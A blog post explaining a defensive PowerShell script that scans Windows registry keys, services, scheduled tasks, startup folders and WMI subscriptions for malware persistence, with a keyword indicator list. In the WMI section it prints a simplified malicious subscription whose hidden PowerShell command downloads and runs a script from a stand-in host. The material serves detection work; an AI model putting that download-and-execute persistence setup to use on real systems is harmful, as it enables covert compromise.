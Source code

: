 ```yaml
---
layout: post
title:  "Powershell for Checking Malware Persistence (All-In-One Script)"
date:   2025-06-16 21:00:00 +1000
categories: project
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview
[-----Malware Persistence Checker-----](https://github.com/lvl0socanalyst/Scripts/blob/main/malware_persistence_checker.ps1)

Script that checks for common malware persistence vectors.

Useful when performing analysis on a potentially compromised PC that has been disconnected from the internet. 

Rather than post the whole script I'll just run over and explain the functions/how to use it. 

I'll slowly add function by function. But I'll start with reg keys. Couldn't you just use autoruns? YES. But that's no fun.

Potentially suspicious findings will be dumped in CLI. All results will be whacked into a .txt file
- Therefore, if you don't like the regex or what is marked as 'suspicious' you can change it. Or just view the .txt to see the full output

Script gives the following options:
1. Scan Registry Persistence Keys
2. Scan Service Keys
3. Scan Scheduled Tasks
4. Scan Startup Folders
5. Scan WMI Event Subscriptions
6. Scan Everything 
7. Exit

![PowerShell Script Options](/images/script_photo.png)

### Potentially suspicious indicators

The script outputs all results to a .txt file. However, entries that seem suspicious are plastered onto the CLI. These are the following indicators I came up with for files/commands/flags that can raise a red flag.

Indicators
- ```"AppData", "Temp", "Roaming", "LocalLow", "Public", "Users\\Public", "\.vbs", "\.js", "\.bat", "\.cmd", "\.ps1", "\.scr", "wscript.exe", "cscript.exe", "powershell.exe", "mshta.exe", "rundll32.exe", "cmd.exe", "System32\\Tasks", "Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved", "curl.exe", "wget.exe", "base64", "Invoke-", "DownloadString", "EncodedCommand" ```


### Registry and Windows Service Keys

Registry keys are fileless. Hence why they a common spot for malware payloads to exist. Payloads stored in reg keys are often called later by scheduled tasks or WMI events. 

A malicious registry payload would typically call powershell to download or invoke a payload.

Checks the following registry keys
- HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
- HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce
- HKLM:\Software\Microsoft\Windows\CurrentVersion\Run
- HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
- HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify

Service keys are also checked for the above indicators. 
- HKLM:\SYSTEM\CurrentControlSet\Services


### Scheduled Tasks
Malware will often create a scheduled task to run at a certain time to give persistence on the host device. This ensures even after a restart or shutdown the beacon can be reinstated.

Scans all scheduled tasks that don't have \Microsoft\ in the path.

Pretty popular persistence vector however is quite well known. One of the first SIEM rules you create should be for alerting on schtasks.exe usage or for tasks here that aren't known.


### Startup Folders
Files that reside here are executed on startup. Much like scheduled tasks a very common area for malware to reside to ensure persistence after a restart/shutdown.

The following startup folders are checked
- AppData\Microsoft\Windows\Start Menu\Programs\Startup
- ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

Malicious files that are set to start on boot here are often named as legitimate Microsoft files and LOLBINs to avoid suspicion.


### WMI Event Subscriptions
WMI subscriptions allow for commands to trigger when a system event occurs. Likewise to reg entries this method is fileless and quite a common method for persistence for more advanced malware.

WMI subscriptions use WQL (Windows Management Instrumentation Query Language) to create conditions on which they should trigger and the action that will occur. WQL uses very similar syntax to SQL, and reads almost like pseudocode. 

An example of a malicious WMI subscription that was used by CozyBear (APT 29).

-----Sets the condition for which the action is triggered (creation of a filter)-----
- ```Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name='explorer.exe'"```

-----Sets the action when the filter is triggered (creation of a consumer)-----
- ```CommandLineTemplate = "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http:cozynoobs.com/minecraft.ps1')"```

-----Binds filter to the consumer (creates condition that runs consumer when filter occurs)
- ```Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{ Filter = $filter.__PATH Consumer = $consumer.__PATH }```

That was a very dumbed down version of the actual event subscription used. But you get the idea of how it is structured. A filter is created which in turn when triggered runs the consumer (action) that runs the suspicious commands.

The following subscriptions are checked
- Get-WmiObject -Namespace root\subscription -Class __EventFilter
- Get-WmiObject -Namespace root\subscription -Class __EventConsumer
- Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding
